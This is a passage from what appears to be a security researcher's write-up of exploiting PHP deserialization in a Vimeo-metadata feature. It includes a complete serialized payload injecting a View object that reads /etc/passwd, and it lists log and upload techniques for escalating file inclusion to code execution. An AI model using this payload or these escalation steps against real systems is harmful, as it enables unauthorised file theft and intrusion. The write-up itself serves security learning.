 Then I just ran PHPGGC and got following serialized object:

![](https://miro.medium.com/max/764/0*qyNjDhRsVmK6dTt2)

Hosted payload on a controlled server, sent a request and …

![](https://miro.medium.com/max/1400/0*IxazTbthZk7j-nKb)

Oookey, at least it was something new. But what I was hoping for? I used not `__wakeup()` or `__destruct()` methods which trigger at the moment of Object creation and destruction respectively, I used `__toString()`. As per [PHP docs](https://www.php.net/manual/en/language.oop5.magic.php#object.tostring):

```
The __toString() method allows a class to decide how it will react when it is treated like a string. For example, what echo $obj; will print.
```

So I somehow should output my _View_ object. Actually it wasn’t difficult to understand that I should provide my _View_ object as a value of title or description attribute, the trick which I made before with an `array`  to trigger an Error exception. Here is what my payload looked like:

```
a:1:{i:0;a:23:{s:2:”id”;i:123456;s:5:”title”;s:30:”London Tornado — The aftermath”;s:11:”description”;**O:4:”View”:1:{s:8:”*_file”;s:11:”/etc/passwd”;}**s:3:”url”;s:24:”https://vimeo.com/123456";s:11:"upload\_date";s:19:"2006-12-14 06:53:32";s:15:”thumbnail\_small”;s:111:”https://i.vimeocdn.com/video/46783763-254c2bbf4211bd6657c59e96a682169c8e74fc56e96ebb4e0a2882b103cab878-d\_100x75";s:16:"thumbnail\_medium";s:112:"https://i.vimeocdn.com/video/46783763-254c2bbf4211bd6657c59e96a682169c8e74fc56e96ebb4e0a2882b103cab878-d\_200x150";s:15:"thumbnail\_large";s:108:"https://i.vimeocdn.com/video/46783763-254c2bbf4211bd6657c59e96a682169c8e74fc56e96ebb4e0a2882b103cab878-d\_640";s:7:"user\_id";i:146861;s:9:"user\_name";s:11:"wordtracker";s:8:"user\_url";s:29:"https://vimeo.com/wordtracker";s:19:"user\_portrait\_small";s:51:"https://i.vimeocdn.com/portrait/defaults-blue\_30x30";s:20:"user\_portrait\_medium";s:51:"https://i.vimeocdn.com/portrait/defaults-blue\_75x75";s:19:"user\_portrait\_large";s:53:"https://i.vimeocdn.com/portrait/defaults-blue\_100x100";s:18:"user\_portrait\_huge";s:53:"https://i.vimeocdn.com/portrait/defaults-blue\_300x300";s:21:"stats\_number\_of\_likes";i:11;s:21:"stats\_number\_of\_plays";i:122560;s:24:"stats\_number\_of\_comments";i:12;s:8:"duration";i:32;s:5:"width";i:320;s:6:"height";i:240;s:4:"tags";s:0:"";s:13:"embed\_privacy";s:8:"anywhere";}}
```

Once again I updated payload on controlled server, sent request and finally:

![](https://miro.medium.com/max/1400/0*w76oIrYVSY8UwvBh)

I got the content of `/etc/passwd` inside `og:description` meta tag. Awesome, local file read is better than semi-blind SSRF, but it’s still not a RCE.

Local file inclusion is such a rare gem in modern web applications that I had to remember where I can store my RCE payload to `include()` it later. The most common techniques are:

*   file upload (in my case application didn’t have such functionality);
*   logs (apache, nginx, mail, ssh, …);

![](https://miro.medium.com/max/1400/0*3e8hDouUzohsGoS0)

![](https://miro.medium.com/max/1400/0*lm12I7PAdSDyhUkX)
